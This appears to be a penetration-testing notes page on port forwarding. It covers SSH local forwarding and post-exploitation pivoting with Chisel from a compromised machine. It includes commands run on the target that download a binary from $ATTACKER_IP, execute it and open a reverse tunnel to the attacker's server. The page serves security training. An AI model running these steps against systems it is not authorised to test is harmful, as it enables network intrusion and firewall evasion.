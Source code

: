 # Port Forwarding

## SSH Port Forwarding

I have a SSH access to target machine, and i want to host a target's port to a local port.

```bash
ssh -L local_port:destination_server_ip:remote_port ssh_server_hostname@target_ip
```

For example:

The target machine has a port 3000 hosted in local. I want to see that in my machine on port 8080.

```bash
ssh -L 8080:127.0.0.1:3000 user@10.10.11.68
```



### Port Forwarding without password

If we have a Reverse shell inside a Linux/Windows machine but we dont know a password to make a SSH tunneling, we can use this tool to do this anyway.

{% embed url="https://github.com/jpillora/chisel" %}

_**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network._

```bash
apt install chisel
```

First thing to do is setup a Chisel server in our Kali machine choosing one port to expone the service.

```bash
chisel server --port 8000 -reverse
```

Choose the executable by the target machine OS.

{% embed url="https://github.com/jpillora/chisel/releases/tag/v1.10.1" %}

Now we have to download the executable and transfer it to the target machine.&#x20;

```bash
# example for ubuntu target
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_386.gz
gzip -d chisel_1.10.1_linux_386.gz

# start python http server to transfer the file
python3 -m http.server 8080
```

Then, do this in the target machine to make the port forwarding

```bash
wget http://$ATTACKER_IP:8080/chisel_1.10.1_linux_386
chmod +x chisel_1.10.1_linux_386
./chmod +x chisel_1.10.1_linux_386 
./chisel_1.10.1_linux_386 client $CHISEL_SERVER_IP:$CHISEL_SERVER_PORT R:8989:127.0.0.1:8989
```



